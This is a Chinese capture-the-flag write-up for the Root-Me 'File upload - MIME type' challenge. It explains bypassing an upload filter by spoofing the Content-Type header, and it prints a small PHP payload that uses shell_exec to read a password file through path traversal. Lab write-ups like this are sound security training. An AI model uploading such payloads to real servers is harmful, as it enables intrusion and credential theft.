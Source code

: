 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[File upload - MIME type](https://www.root-me.org/en/Challenges/Web-Server/File-upload-MIME-type)] [[解题报告](http://exp-blog.com/2019/01/13/pid-2987/)]

------

这题和【[Web-Server : File upload - double extensions](http://exp-blog.com/2019/01/13/pid-2985/)】的渗透思路是一样的，区别在于绕过方式。

上传一个文件测试一下，发现这次无法再利用双重后缀绕过了，只能上传图片后缀的文件。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B15%5D%20%5B20P%5D%20File%20upload%20-%20MIME%20type/imgs/01.png)

题目提示是使用 MIME type 实现绕过。

那么构造 payloads 文件内容都是一样的，不过因为不能利用后缀绕过，所以文件名保持为 `exp.php` 即可：

```php
<?php
	// exp.php
	// 假如这个文件上传成功，则可以利用 web 打开这个文件进行解析时进行路径穿越
	$content = shell_exec('cat ../../../.passwd');
	echo "<pre>$content</pre>";
?>
```

使用 Burp Suite -> Repeater 进行上传，同时要修改 `Content-Type` 的值为 `image/png` 即可实现绕过（原值为 `application/octet-stream`）。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B15%5D%20%5B20P%5D%20File%20upload%20-%20MIME%20type/imgs/02.png)

上传成功后刷新 upload 分类页面，找到 `exp.php` 打开即可获得密码，完成挑战。


![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B15%5D%20%5B20P%5D%20File%20upload%20-%20MIME%20type/imgs/03.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
